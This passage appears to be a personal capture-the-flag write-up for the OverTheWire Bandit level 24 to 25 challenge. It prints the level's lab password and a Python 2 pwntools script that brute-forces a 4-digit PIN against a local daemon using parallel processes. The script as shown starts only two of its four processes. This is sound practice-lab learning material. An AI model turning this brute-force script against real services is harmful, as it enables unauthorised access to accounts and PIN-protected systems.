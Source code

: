 > ## FLAG:
>```bash
>	pwd: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
>```
> back to [Table Of Content](#TableOfContent)
_________________
_________________

~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~
_________________
_________________
# <a name="Level24"></a>Level 24 -> 25

> ```bash
> ssh bandit24@bandit.labs.overthewire.org -p 2220
> pwd: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
> 
> Level Goal
> 	A daemon is listening on port 30002 and will give 
> 	you the password for bandit25 if given the password 
> 	for bandit24 and a secret numeric 4-digit pincode.
> 	There is no way to retrieve the pincode except by 
> 	going through all of the 10000 combinations, 
> 	called brute-forcing.
> ```

here the challenge was to bruteforce a 4digit pincode. this was not able to be done manualy due to the amount of combinations.

for this i did some research. and found a tool called `PWN-TOOLS`.

this is a script which makes multiple connections and trys the password. once it finds the right combo it will then stop.

```python
#!/usr/bin/python
from pwn import *
from multiprocessing import Process

def brute(nrOne,nrTwo):
    for pin in range(nrOne,nrTwo):
        pin = str(pin).zfill(4)

        r = remote('127.0.0.1', 30002)
        r.recv()
        r.send('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ' + pin + '\n')

        if 'Wrong' not in r.recvline():
            print '[+] Successful -> ' + pin
            print r.recvline()
            r.close()
        else:
            if int(pin) % 100 == 0:
                print '[!] Failed -> ' + pin
            r.close()

if __name__=='__main__':
    p1 = Process(target = brute, args = (0,2500,))
    p2 = Process(target = brute, args = (2500,5000,))
    p3 = Process(target = brute, args = (5000,7500,))
    p4 = Process(target = brute, args = (7500,10000,))
    p1.start()
    p2.start()
```